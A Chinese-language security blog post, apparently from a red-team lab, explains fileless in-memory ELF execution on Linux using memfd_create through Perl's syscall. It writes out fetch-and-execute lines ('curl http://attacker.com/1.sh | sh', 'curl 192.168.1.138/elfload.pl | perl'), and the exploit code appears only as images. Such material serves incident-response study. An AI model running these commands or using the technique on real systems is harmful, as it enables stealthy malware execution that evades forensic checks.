 ```yaml
---
layout: post
title: Linux无文件渗透执行ELF
date: 2018-05-15 13:43:02
categories: [Pentest, Red Team]
---
```


> 本文首发[逢魔安全实验室微信公众号](https://mp.weixin.qq.com/s/SdR6ce9xjbS5UQbh14kfgg)

### 0x01 简介

在进行Linux系统的攻击应急时，大家可能会查看pid以及/proc相关信息，比如通过*/proc/$pid/cmdline*查看某个可疑进程的启动命令，通过*/proc/$pid/exe*抓样本等，但是攻击者是否会通过某种类似于*curl http://attacker.com/1.sh | sh*的方法来执行elf二进制文件呢？最近看了一篇@MagisterQuis写的文章https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html，思路比较奇特，这里分享给大家，当然本文大部分内容都来自于这篇文章，大家也可以直接去读原文。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/pvl7sjjxrg.jpg)

### 0x02 技术核心

这里向大家介绍一个linux系统的底层调用函数*memfd_create(2)，*它在内核3.17中引入，会创建一个匿名文件并返回一个文件描述符指向它，该文件表现和常规文件类同， 可以进行修改，截断，内存映射等等，但不同的是，它存在于RAM当中。这就是可以被攻击者所利用的，如果有办法将需要执行elf通过*memfd_create(2)*写入内存中进行执行的话就可以达到我们的目的。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/l3ju6ct2aj.png)

对于该匿名文件的命名man信息中的解释如下：

> The name supplied in name is used as a filename and will be displayed as the target of the corresponding symbolic link in the directory /proc/self/fd/.  The displayed name is always prefixed with memfd: and serves only for debugging purposes.  Names do not affect the behavior of the file descriptor, and as such multiple files can have the same name without any side effects.

类似于下面这样，当我们在虚拟文件系统中查看该进程信息时，在memfd:后面会出现对于该文件名称，甚至对于匿名文件的命名可以是空的。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/qe5yu1ocku.jpg)

这里我们已经知道调用*memfd_create(2)*可以达到我们的目的，但是该怎么调用呢？perl语言中提供了一个*syscall()*方法可以满足我们的需求，当然python也可以，但是python实现该功能需要依赖第三方库。

*memfd_create()*调用时需要传入两个参数，一个是文件名，一个是*MFD_CLOEXEC*标志（类似于*O_CLOEXEC*），以便当我们执行ELF二进制文件时，我们得到的文件描述符将被自动关闭。当然我们使用perl传递*memfd_create(2)*的原始系统调用号和*MEMFD_CLOEXEC*的数字常量， 这两个都可以在/usr/include的头文件中找到。 系统调用号码存储在以_NR开头的#define中。

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/8zspn1e9aq.jpg)

这里我们已经获取到了*memfd_create(2)*的系统调用码（在64位操作系统中为319）和*MFD_CLOEXEC*（0x0001U），这时候我们就可以使用perl的syscall函数来调用*memfd_create(2)* : *fd = syscall(319, $name, MFD_CLOEXEC))*也就是类似于*fd = memfd_create($name, MFD_CLOEXEC)*

### 0x03 EXP实现

这里开始编写perl利用脚本，脚本分为三部分，第一部分创建内存匿名文件并写入ELF文件内容

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/p3ut8qagu6.jpg)

这里还有一个问题，如何将elf二进制文件写入到创建的文件当中，@MagisterQuis这里使用open函数将$FH内容添加进创建的匿名文件$fd当中，而$FH通过perl转化自要执行的elf文件，这就是该脚本的第二部分

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/41r78auzam.jpg)

第三部分就是执行该文件了，调用exec函数执行该匿名文件

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/2a03cym868.jpg)

这里我们最后的EXP就生产好了，我们可以目标机上执行 

*curl 192.168.1.138/elfload.pl | perl*

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/6w4ulsnckk.jpg)

![](http://reverse-tcp.xyz/static/img/posts/fileless-elf/kn3fq1eeov.jpg)

可以看到我们的elf文件最终以匿名文件的方式在内存中被加载执行了，从匿名文件运行的程序与运行于普通文件的程序之间唯一真正的区别是/proc/pid/exe符号链接。

原作者还使用了fork函数进行了一些进程操作，有兴趣的同学可以去了解一下。

### 0x04 参考

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

http://man7.org/linux/man-pages/man2/memfd_create.2.html